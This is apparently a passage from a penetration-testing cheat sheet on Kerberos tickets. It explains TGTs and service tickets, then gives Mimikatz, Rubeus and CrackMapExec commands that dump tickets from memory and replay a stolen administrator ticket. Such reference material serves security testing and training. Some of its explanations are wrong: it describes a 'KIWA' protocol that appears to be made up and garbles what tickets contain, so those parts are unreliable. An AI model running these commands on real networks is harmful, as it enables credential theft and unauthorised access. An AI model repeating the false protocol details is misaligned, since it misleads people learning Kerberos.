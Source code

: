 
## Kerberos Tickets

Tickets are used to grant access to network resources. A ticket is a data structure that contains information about the user's identity, the network service or resource being accessed, and the permissions or privileges associated with that resource. Kerberos tickets have a limited lifetime and expire after a set period of time, typically 8 to 12 hours.

There are two types of tickets in Kerberos:

- **Ticket Granting Ticket** (TGT): The TGT is obtained by the user during the initial authentication process. It is used to request additional service tickets without requiring the user to re-enter their credentials. The TGT contains the user's identity, a timestamp, and an encryption of the user's secret key.
    
- **Service Ticket** (ST): The service ticket is used to access a specific network service or resource. The user presents the service ticket to the service or resource, which then uses the ticket to authenticate the user and grant access to the requested resource. The service ticket contains the user's identity, a timestamp, and an encryption of the service's secret key.
    

### Dump Kerberos Tickets

- Mimikatz: `sekurlsa::tickets /export`
- Rubeus
    
    ```ps1
    # List available tickets
    Rubeus.exe triage
    
    # Dump one ticket, the output is in Kirbi format
    Rubeus.exe dump /luid:0x12d1f7
    ```
    

### Replay Kerberos Tickets

- Mimikatz: `mimikatz.exe "kerberos::ptc C:\temp\TGT_Administrator@lab.local.ccache"`
- CrackMapExec: `KRB5CCNAME=/tmp/administrator.ccache crackmapexec smb 10.10.10 -u user --use-kcache`

### Convert Kerberos Tickets

In the Kerberos authentication protocol, ccache and kirbi are two types of Kerberos credential caches that are used to store Kerberos tickets.

- A credential cache, or `"ccache"` is a temporary storage area for Kerberos tickets that are obtained during the authentication process. The ccache contains the user's authentication credentials and is used to access network resources without having to re-enter the user's credentials for each request.
    
- The Kerberos Integrated Windows Authentication (KIWA) protocol used by Microsoft Windows systems also makes use of a credential cache called a `"kirbi"` cache. The kirbi cache is similar to the ccache used by standard Kerberos implementations, but with some differences in the way it is structured and managed.
    